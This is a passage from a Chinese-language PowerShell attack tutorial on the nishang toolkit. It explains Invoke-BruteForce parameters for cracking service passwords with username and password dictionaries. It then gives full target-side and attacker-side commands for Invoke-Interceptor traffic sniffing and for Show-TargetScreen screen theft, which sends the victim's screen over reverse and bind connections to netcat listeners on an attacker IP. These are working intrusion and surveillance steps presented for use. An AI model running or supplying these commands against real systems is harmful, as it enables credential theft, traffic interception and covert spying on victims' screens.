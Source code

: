 Invoke-BruteForce

之前先说命令参数

-ComputerName 对应服务的计算机名

-UserList 用户名字典

-PasswordList 密码字典

-Service 服务（默认为：SQL）

-StopOnSuccess 匹配一个后停止

-Delay 延迟时间

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660314550903.png)

有了上面的说明，这里看到应该很清楚了。不在做过多的解释。

## **4.6 嗅探**

内网嗅探，动静太大了，但是，实在没办法的时候，不得不说，这是一个办法。

在靶机上执行:Invoke-Interceptor -ProxyServer 192.168.250.172 -ProxyPort 9999

监听机器上执行:netcat -lvvp 9999

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660320985617.png)

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660330608868.png)

##  4.7 屏幕窃取

Show-TargetScreen

屏幕窃取，一样正反向通吃

-IPAddress  后面加IP地址（反向链接需要）

-Port 加端口

-Bind 正向连接

反向链接窃取屏幕

靶机:Show-TargetScreen -Reverse -IPAddress 192.168.250.172 -Port 3333

攻击机:netcat -nlvp 3333 | netcat -nlvp 9999

之后访问攻击机器的9999端口，就可以窃取到屏幕了

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660338106628.png)

正向连接窃取屏幕

靶机执行:Show-TargetScreen -Bind -Port 3333

攻击机执行:netcat -nv 192.168.250.37 3333 | netcat -lnvp 9999
